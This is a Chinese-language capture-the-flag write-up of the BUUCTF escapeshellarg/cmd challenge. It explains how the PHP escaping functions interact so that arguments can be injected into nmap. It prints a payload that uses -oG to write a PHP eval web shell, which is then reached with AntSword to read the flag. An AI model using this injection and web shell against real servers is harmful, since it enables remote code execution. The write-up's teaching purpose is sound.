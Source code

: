 ### escapeshellarg/cmd

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67b174add0e0a243d4ffc23a.jpg)

打开网页拿到源码

![](https://pic1.imgdb.cn/item/67b174bcd0e0a243d4ffc23c.jpg)

传入的参数是：172.17.0.2' -v -d a=1

经过 escapeshellarg 处理后变成了 '172.17.0.2 '\\'' -v -d a=1'

即先对单引号转义，再用单引号将左右两部分括起来从而起到连接的作用

经过 escapeshellcmd 处理后变成 '172.17.0.2 '\\\\'' -v -d a=1\\'

这是因为 escapeshellcmd 对 \ 以及最后那个不配对儿的引号进行了转义

最后执行的命令是 curl '172.17.0.2 '\\\\'' -v -d a=1\\'

由于中间的 \\\ 被解释为 \ 而不再是转义字符，所以后面的 ' 没有被转义，与再后面的 ' 配对儿成了一个空白连接符

即向 172.17.0.2 发起请求，POST 数据为 a=1

所以经过我们构造之后，输入的值被分割成为了三部分

第一部分就是curl的IP，为172.17.0.2\

第二部分就是两个配对的单引号 ' '

第三部分就是命令参数以及对象 -v -d a=1'

nmap 有一个参数 -oG 可以实现将命令和结果写到文件

所以我们可以控制自己的输入写入文件，这里我们可以写入一句话木马链接，也可以直接命令 cat flag

```php
?host=' <?php eval($_POST["hack"]);?> -oG hack.php '
```

![](https://pic1.imgdb.cn/item/67b1753fd0e0a243d4ffc24c.jpg)

记录下它生成的文件夹名

![](https://pic1.imgdb.cn/item/67b17550d0e0a243d4ffc24f.jpg)

打开蚁剑远程连接

![](https://pic1.imgdb.cn/item/67b1755fd0e0a243d4ffc253.jpg)

成功拿到 flag

![](https://pic1.imgdb.cn/item/67b17570d0e0a243d4ffc254.jpg)